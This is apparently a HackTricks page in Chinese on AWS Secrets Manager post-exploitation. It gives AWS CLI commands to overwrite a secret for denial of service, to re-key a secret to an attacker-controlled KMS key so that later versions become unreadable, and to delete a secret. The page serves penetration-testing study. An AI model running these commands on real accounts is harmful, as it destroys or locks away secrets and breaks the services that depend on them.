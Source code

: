 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

更多信息请参阅：

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### 读取 Secrets

这些 **secrets 本身是敏感信息**，[查看 privesc 页面](../aws-privilege-escalation/aws-secrets-manager-privesc.md) 了解如何读取它们。

### DoS 更改 Secret 值

更改 secret 的值可能会导致所有依赖该值的系统 **被 DoS。**

> [!WARNING]
> 请注意，先前的值也会被存储，因此很容易回滚到之前的值。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

如果攻击者具有 secretsmanager:UpdateSecret 权限，他们可以将 secret 配置为使用攻击者拥有的 KMS key。该 key 最初被设置为任何人都可以访问和使用，因此可以使用该新 key 更新 secret。如果该 key 无法访问，则无法更新 secret。

在更改 secret 使用的 key 之后，攻击者会修改他们的 key 的配置，使只有他们自己可以访问。这样，secret 的后续版本将使用该新 key 加密，由于无法访问该 key，就无法检索这些 secret。

需要注意的是，这种不可访问性只会出现在后续版本（在 secret 内容更改之后），因为当前版本仍然使用原来的 KMS key 加密。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

删除一个 secret 的最短天数为 7 天
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
